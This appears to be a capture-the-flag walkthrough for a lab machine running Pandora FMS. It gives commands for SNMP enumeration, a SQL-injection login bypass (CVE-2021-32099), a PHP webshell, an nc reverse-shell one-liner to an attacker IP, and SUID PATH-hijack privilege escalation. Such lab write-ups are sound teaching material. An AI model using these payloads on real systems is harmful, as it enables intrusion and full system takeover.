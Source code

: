 ## Initial Shell - 10.129.119.24

Initial nmap scan for UDP ports:  
`nmap -vv --reason -Pn -T4 -sU -A --top-ports 100 10.129.119.24`

SNMP scan for port 161:  
`nmap -vv --reason -Pn -T4 -sU -sV -p 161 --script="banner,(snmp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" 10.129.119.24`

Leaked credentials:  
```
daniel:HotelBabylon23
```
![](images/snmpwalk.png)

Login using SSH:  
`ssh daniel@10.129.119.24`

Find virtually hosted web server at /var/www/pandora

Set up dyanamic port forwarding:  
`sudo ssh -N -D 127.0.0.1:1234 daniel@10.129.104.86`

Add socks5 proxy to the /etc/proxychains4.conf file on Kali host:  
`socks5  127.0.0.1 1234`

Bypass login as admin as descibed [here](https://github.com/ibnuuby/CVE-2021-32099):  
`http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271`

Upload php websehll as admin user using the file upload tool at 
```
http://localhost/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager&directory=images/console&hash2=a80a52abc72929ff0ddfdf3790722c39  
```

Contents of php webshell:
```
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
```
Setup listener on kali box:  
`sudo nc -lvnp 445`

URL encode the payload:  
`urlencode "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 445 >/tmp/f"`

Send the encoded payload to the webshell using a browser:  
```
http://localhost/pandora_console/images/php_cmd.php?cmd=%72%6d%20%2d%66%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%31%32%20%34%34%35%20%3e%2f%74%6d%70%2f%66
```

## Escalation
**/usr/bin/at** has SUID bit on. Escape retricted shell:  
`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

**/usr/bin/pandora_backup** has SUID bit on. And references a relative path for the tar binary. Create malicous tar binary containing the following:  
```
#!/bin/bash  

bash
```

Export new path:  
`export PATH=/tmp:$PATH`

Run pandora_backup from /tmp directory:  
`/usr/bin/pandora_backup`

<div style="page-break-after: always;"></div>

## Proof
### User:  
![](images/user_matt.png)

### Root:  
![](images/root.png)